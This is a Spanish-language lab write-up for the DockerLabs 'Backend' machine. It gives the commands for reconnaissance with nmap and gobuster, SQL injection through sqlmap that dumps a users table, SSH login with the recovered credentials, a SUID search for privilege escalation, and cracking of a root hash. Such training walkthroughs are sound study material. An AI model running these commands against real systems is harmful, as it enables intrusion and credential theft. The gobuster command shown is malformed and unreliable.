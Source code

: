 # 🖥️ **Máquina: Backend**  
- **🔹 Dificultad:** Fácil  
- **📌 Descripción:**  
  Esta máquina de DockerLabs pone a prueba habilidades en la explotación de bases de datos mediante **inyecciones SQL (SQLi)**. Se enfoca en la identificación y explotación de vulnerabilidades en consultas MySQL, lo que permite el acceso no autorizado a la base de datos y la extracción de información sensible.  

- **🎯 Objetivo:**  
  - Identificar y explotar fallos de seguridad en la aplicación backend mediante técnicas de **inyección SQL**.  
  - Comprender su impacto.  

![Máquina Backend](/Backend/Images/Maquina.png)

---

## 🚀 **Iniciando la Máquina Backend en DockerLabs**  

Para desplegar la máquina, sigue estos pasos:  

### 1️⃣ **Descargar y descomprimir el archivo**  
Primero, descarga el archivo `.zip` y extráelo. En mi caso, uso `7z`:  

```bash
7z e backend.zip
```

### 2️⃣ **Ejecutar el despliegue automático**  
Una vez descomprimido, ejecuta el siguiente comando para desplegar la máquina:  

```bash
bash auto_deploy.sh backend.tar
```

---

📌 **Nota:** Asegúrate de tener `7z` instalado y de ejecutar el script en un entorno adecuado con Docker configurado.  

![Máquina Iniciada](/Backend/Images/inicio.jpeg)

Una vez iniciada compruebas la conecion y con el comando:
```bash
ping -c4 172.17.0.2
```
Una vez confirmada la conexion comenzamos con las fase de reconocimiento usando el comando:
```bash
nmap -p- --open -sS --min-rate 500 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```
📌 **Nota:** En mis repositorios puedes encontrar información sobre los comandos empleados en esta fase ya que uso script personalizados.

Extraigo la informacion importante con el comando personalizado:
```bash
extracPorts allPorts.txt
```
![Reconocimiento](/Backend/Images/escaneo.jpeg)

Con las informacion estraida hacemos un reconocimeto mas exahustivo con los puertos que ya conocemos y ver las información sobre los servicios que corren en los puertos, para esto usamos el comando:
```bash
nmap -p22,80 -sCV 172.17.0.2 -oN target
```
📌 **Nota:** Con esta informacón podemos empezar a busacr vulberabilidades por las verciones que nos muestras y ver los servicios y como podiramos atacar, en este caso el puerto 22 corresponde al SSH y el puertp 80 nos muestra que en ese puerto corre una pagina web.

![Reconocimiento](/Backend/Images/puertos.jpeg)

Para que el navegador nos muestre la pagina web tenemos que meter la dirección IP de la maquina 172.17.0.2, podemos abrir el archivo con:
```bash
nano /etc/hosts
```
![directorio](/Backend/Images/etchosts.jpeg)

Podemos recopilar información sobre la pagina web con, esto es util para ver sobre los servicios que trabaja y la verciones de la pagina y poder encontrar una vulnerabilidad:
```bash
whatweb 172.17.0.2
```
![Reconocimiento](/Backend/Images/etc/whatweb.jpeg)

Ya que sabemos que estamos trabajando una pagina web podemos ver que tiene un apartado de login, intentamos entrar con credenciales de podria venir pordefecto y con este verificamos si podriamos entrar, pero no tiene estas credenciales habilitadas.

![pagina](/Backend/Images/etc/pruebas.jpeg)

Hacemos uso de gobuster para buscar directorios:
```bash
gobuster dir -u /usr/share/seclists/Discovery/web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b '403,404 -x php,html,txt
```
📌 **Nota:** -u sirve para definir una biblioteca de directorios si no la tienes instalada puedes usar apt install, ademas podriamos usar gobuster para buscar sub-dominios pero cuando realice la practica deduje que seria una ataque por inyeccioón MySQL, solo me llamo la atencion que la url aparecia como index.html y login.html y queria probar si podria existir mas directorios ocultos y no huvo directorios impoertantes.
```bash
apt -y install seclists
```

![directorios](/Backend/Images/etc/directorios.jpeg)

Para confirmas si era vulnerable la pagina una inyección use admin' en un campo de usuario y la aplicación respondio con un error de base de datos, y esto confirma que el sitio es vulnerable a inyecciones SQL. Esto sucede porque el carácter de comilla simple (') puede alterar la estructura de la consulta SQL.

![pagina](/Backend/Images/etc/pagina.jpeg)

![error](/Backend/Images/etc/sql.jpeg)

Hice uso de Burp Suite para poder mandar la peticion a mi proxy y copiar la peticion un archivo .req para poder usarlo posteriormente.

![peticiones](/Backend/Images/etc/peticion.jpeg)

Con la herramineta sqlmap que sirve para realizar inyecciones sql automaticamente la use para realizar ataques al formulario y poder optener informacion sensible.
```bash
sqlmap -r peticiones.req --level=5 --risk=3 --dump 
```
![sql](/Backend/Images/etc/sqlmap.jpeg)

Una vez que te se termino la inyeccion podemo soptener una base de datos llamada users con usuarios y contraseñas, estas credenciales no tuvieron exito en el inicio de sesión en la pagina web y se intentento acceder por SSH el cual la unica credencial valida fue pepe, al ser pocas contraseñas se hizo manual pero se puede realizar por la herramineta hydra.
Nos conectapor por SSH:
```bash
ssh pepe@172.17.0.2 -p 22
```
![ssh](/Backend/Images/etc/conectarssh.jpeg)

📌 **Nota:** Esta herramienta esta penalizada en las certificaciones y en esta las tienes que realizar manualmente.

Se buscan vulnerabilidades para poder escalar privilegios en donde este comando nos mostro que podemos ejecutar comados grep y ls con privilegios de root y pudimos conseguir un hash MD5 (con la practica puedes identificar los tipos). 
```bash
find / \-perm -4000 2>/dev/null
```
![buscar](/Backend/Images/etc/Buscar.jpeg)

Guardamos el hash como .txt y con la herramienta John the ripper podemos podemos conseguir la contraseña con el cual nos sirve para conectarnos a SSH como root.
![contraseña](/Backend/Images/etc/ContraseñaRoot.jpeg)

📌 **Nota:** Puedes hacerlo directamente con comados bash o con paginas de internet.

